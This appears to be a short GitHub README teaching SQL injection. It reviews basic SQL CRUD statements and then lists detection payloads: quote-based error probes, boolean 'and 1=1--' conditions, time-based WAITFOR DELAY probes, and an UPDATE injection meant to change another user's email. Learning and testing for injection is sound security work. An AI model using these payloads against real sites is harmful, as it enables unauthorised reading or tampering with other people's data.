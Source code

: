 
# SQL Injection Manual

SQL injection is a type of injection attack where attacker injects arbitrary SQL queries into database server using input options


## Important Note

SQL Version and program can be different in different sites
Like MySQL  , PostGrsql , Oracle , MsSQL etc. So the syntax is also different in them. [FOLLOW THIS FOR TESTING](https://portswigger.net/web-security/sql-injection/cheat-sheet)




## CURD Operation In SQL 

Create (INSERT):

```sql
  INSERT INTO table_name (column1, column2, ...) VALUES (value1, value2, ...)
  INSERT INTO customers (name, email, phone) VALUES ('John Doe', 'john@example.com', '123456789')
```

Read (SELECT):

```sql
  SELECT column1, column2, ... FROM table_name WHERE condition
  SELECT * FROM customers WHERE uid = 1
```

Update (UPDATE):

```sql
  UPDATE table_name SET column1 = value1, column2 = value2, ... WHERE condition
  UPDATE customers SET email = 'newemail@example.com' WHERE id = 1
```

Delete (DELETE):

```sql
    DELETE FROM table_name WHERE condition
    DELETE FROM customers WHERE id = 1
```


## SQL Injection Detection and confirmation



```SQL
  # Error Based PAYLOADS [;,--,',",#]
  name=hacker'

  # Condition Based Detection
  name=hacker'and 1=1-- (Sucess Execution)
  select name from users where id=1 and 1=1;--;

  name=hacker'and 1=2-- (Failed  Execution)
  select name from users where id=1 and 1=2;--;


  email=newemial@gmail.com' WHERE id= {not_yours};--
  UPDATE customers SET email = 'newemail@example.com' WHERE id = -1 ;--

  # Blind Based PAYLOADS
  email=test@emial.com' WAITFOR DELAY '0:0:10'--

  
```

